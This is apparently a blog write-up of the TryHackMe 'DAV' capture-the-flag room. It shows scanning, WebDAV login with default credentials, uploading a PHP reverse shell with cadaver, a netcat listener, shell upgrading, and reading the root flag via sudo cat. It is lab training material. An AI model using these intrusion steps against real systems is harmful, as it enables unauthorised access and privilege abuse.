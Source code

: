 ```yaml
---
layout: post
title: "DAV"
date: 2022-03-28
categories: [Tryhackme, Easy-THM]
tags: [security]
image: ../../assets/img/posts/DAV.png 

---
```


## Description

boot2root machine for FIT and bsides guatemala CTF.

|**Room**|[DAV](https://tryhackme.com/room/bsidesgtdav)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Let's deploy the machine and we'll start with scanning open ports quickly with rustscan,

```bash
rustscan -a 10.10.190.162
```

![image](https://user-images.githubusercontent.com/67465230/160325747-6791a4b7-e2e2-4049-90a9-61241ed5fd07.png)

we get 1 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p80 10.10.190.162 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/160325754-7fcaea94-3b9e-4893-84b1-7f520e5a02d4.png)

Result scan reveals that port 80 is running webserver. Enumerate port 80.

Visit http://10.10.228.181,

![image](https://user-images.githubusercontent.com/67465230/160325758-ffe8e3d3-2b04-42aa-a244-449709c3755e.png)

we got a default apache webpage.

Let's brute force directories using dirsearch,

```bash
dirsearch -u http://10.10.228.181 -w /usr/share/seclists/Discovery/Web-Content/common.txt 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/160325767-eb0f9c08-52bd-45a1-bcd5-8659d7e62c64.png)

we got a hidden directory **/webdav**.

Navigating to http://10.10.228.181/webdav,

![image](https://user-images.githubusercontent.com/67465230/160325778-dd70c5eb-149b-4637-a148-5889e6a46c45.png)

we are required to enter the login credentials. 

Since we don't have any sort of credentials, searching for them online get us to a blog post of [WebDav Default Credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html).

Now, we can use cadaver tool to login into machine,

```md
cadaver is **a command-line WebDAV client for Unix**. It supports file upload, download, on-screen display, namespace operations (move/copy), collection creation and deletion, and locking operations.
```

```bash
cadaver http://10.10.228.181/webdav
```

![image](https://user-images.githubusercontent.com/67465230/160325788-e288cea5-b16f-416b-94fd-88ebd4ef37fd.png)

providing it with default credentials and it will let us in.

Now, since we know that we are in webserver sub-directory /webdav, we can put a reverse shell and trigger it to get a reverse connection.

So, hosting python server using `python3 -m http.server`, start a netcat listener using `nc -nvlp 4444` and upload this shell on machine,

```bash
put php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/67465230/160325796-7d4925a9-ca02-4cf3-8455-057392547356.png)

Navigating to http://10.10.228.181/webdav,

![image](https://user-images.githubusercontent.com/67465230/160325803-5e8d433b-93bd-443f-a7d1-674889053b4b.png)

we can see our webshell here. Click on it to trigger it,

And we got a shell,

![image](https://user-images.githubusercontent.com/67465230/160325815-57d78a13-a6cf-49e6-a6ff-620f4fb13e37.png)

Since we got a shell and this does not have any functionality, we can improve this shell using 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Listing directory content in home directory,

![image](https://user-images.githubusercontent.com/67465230/160325823-24052c9e-47e7-469e-bfe0-9a7e3e582b1d.png)

and we can see 2 users, merlin (apart from wampp), which is our target.

Establish directory and we can see our user flag,

![image](https://user-images.githubusercontent.com/67465230/160325828-e718b1ea-2751-4724-a956-c99729f2c240.png)

Now, comes the privilege escalation part. We can list the binaries which we can run using sudo,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/160325835-4bc771f9-e65e-4781-8c95-fd745a9af482.png)

we can run **/bin/cat** binary with sudo.

So, what we can do is that we can use /bin/cat binary and run it as root to read the root flag,

```bash
sudo /bin/cat /root/root.txt
```

and by this we can do read the root flag.